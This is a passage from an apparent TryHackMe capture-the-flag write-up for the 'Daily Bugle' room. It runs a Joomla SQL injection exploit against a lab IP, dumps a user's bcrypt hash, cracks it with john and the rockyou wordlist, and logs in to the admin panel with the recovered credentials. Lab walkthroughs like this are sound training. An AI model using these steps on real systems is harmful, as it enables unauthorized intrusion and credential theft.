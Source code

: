 Downloaded and ran the Python script:
```bash
python3 JoomlaExploit.py http://10.10.172.83
```

**Output**:
```plaintext
Fetching CSRF token
Testing SQLi
Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
Extracting sessions from fb9j5_session
```

Cracked the password hash using `john`:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

**Output**:
```plaintext
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
spiderman123     (?)
1 password hash cracked, 0 left
```

**Credentials**:
- Username: `jonah`
- Password: `spiderman123`

---

## Initial Access

Logged into the Joomla admin panel (`/administrator/`) using `jonah:spiderman123`:
![Joomla Admin](/assets/TryHackMeRoomsImage/DailyBugle/image4.png)

